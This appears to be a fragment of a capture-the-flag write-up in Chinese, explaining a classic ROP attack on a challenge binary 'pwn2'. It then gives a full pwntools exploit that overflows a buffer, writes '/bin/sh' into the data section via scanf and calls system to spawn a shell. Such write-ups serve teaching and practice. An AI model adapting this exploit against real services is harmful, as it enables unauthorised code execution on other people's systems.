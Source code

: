 经典的rop构建，将我们的`"/bin/sh"`字串发送至进程的存储空间上，并用`system`函数将此字符串首地址作为参数即可拿到shell

exp如下：

```python
from pwn import *

context(log_level="debug")

# p = process('./pwn2')
p = remote('127.0.0.1',10089)
elf = ELF("pwn2")
system_plt = elf.symbols["system"]
scanf_plt = elf.symbols["__isoc99_scanf"]
data = 0x804A024
_s = 0x8048601
pp_ret = 0x080485ca
p.recvuntil('\n')
payload  = ''
payload += 'a'*(0x3a+4)
payload += p32(scanf_plt)+p32(pp_ret)+p32(_s)+p32(data)
payload += p32(system_plt)+p32(0)+p32(data)
p.sendline(payload)
p.sendline('/bin/sh\0')
p.interactive()
```
